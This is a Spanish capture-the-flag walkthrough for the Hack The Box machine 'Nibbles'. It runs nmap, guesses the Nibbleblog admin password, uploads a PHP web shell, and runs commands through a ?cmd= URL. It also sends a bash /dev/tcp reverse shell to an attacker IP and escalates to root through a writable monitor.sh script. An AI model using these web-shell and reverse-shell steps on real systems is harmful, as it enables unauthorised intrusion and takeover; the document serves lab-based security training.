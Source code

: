 - ## WRITEUP
	- Realizamos el escaneo de todos los puertos con parametros para script, version de aplicaciones que escuchan, entre otros, y lo guardamos en un archivo "escaneo"
		```
		nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 10.10.10.75 -oN Escaneo
		```
	- El resultado son el puerto 22 y 80 abiertos:
		```
		PORT   STATE SERVICE REASON         VERSION
		22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey: 
		|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
		| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
		|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
		| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
		|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
		|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
		80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
		| http-methods: 
		|_  Supported Methods: GET HEAD POST OPTIONS
		|_http-title: Site doesn't have a title (text/html).
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
		```
	- Hacemos chequeo de las tecnologias que maneja el sitio por el puerto 80
	```
	whatweb 10.10.10.75
	http://10.10.10.75 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
	```
	- Tratamos de acceder al sitio por el explorado de internet:
	![[Pasted image 20250611193959.png]]
	- Vemos el codigo fuente y encontramos un subdirectori en el sitio:
		![[Pasted image 20250611203507.png]]
		- ![[Pasted image 20250611203557.png]]
	- Buescamos exploit posibles para el sitio hecho en NIBBLEBLOG con searchesploit:
		![[Pasted image 20250611203735.png]]
	- haciendo fuzzing encontramos la direccion "/admin.php":
		- ![[Pasted image 20250611204106.png]]
	- usamos burp para ver como es el pasaje de credenciales:
		- ![[Pasted image 20250611204329.png]]
	- podemos observar la el formato de la peticion POST e intentar usarla con hydra
		- ![[Pasted image 20250611204556.png]]
	- pero por sentido comun sacamos que el pass es nibbles (nombre de la maquina)
	- encontramos una forma de subir archivos maliciosos como por ejemplo un reverseshell en php
		![[Pasted image 20250611213539.png]]
	- Lo subimos en esta seccion del sitio
		- ![[Pasted image 20250611213703.png]]
	- en la direccion "nibbleblog/content/"  podemos ejecutar comando por intermedio de la url como por ejemplo: http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami
		- ![[Pasted image 20250611214455.png]]
	- una ves visto que por la URL se puede ejecutar comandos, intentamos generar una reverse shell ,entramos a burpsuit para para encodear como URL siguiente comando: bash -c 'bash -i >&/dev/tcp/10.10.16.3/4430>&1'
		- ![[Pasted image 20250612202808.png]]
	- Una vez encodeado el script, colocarlo en el URL y navegar, al mismo tiempo hay que estar escuchando en el puerto 443 con netcat
		- ![[Pasted image 20250612211617.png]]
	- pocemos observar que entramos como el usuario nibbler o haciendo un "whoami"
	- navegamos a la carpeta del usuario y encontramos la primera bandera
		- ![[Pasted image 20250612211818.png]]
		- luego buscando encontramos un script "monitor.sh" el cual tiene permisos de ejecucion asi que intentamos elevar privilegios a root por intermedio del mismo:
			- ![[Pasted image 20250612212058.png]]
		- y asi navegamos hacia la carpeta root para conseguir la ultima bandea
			- ![[Pasted image 20250612212151.png]]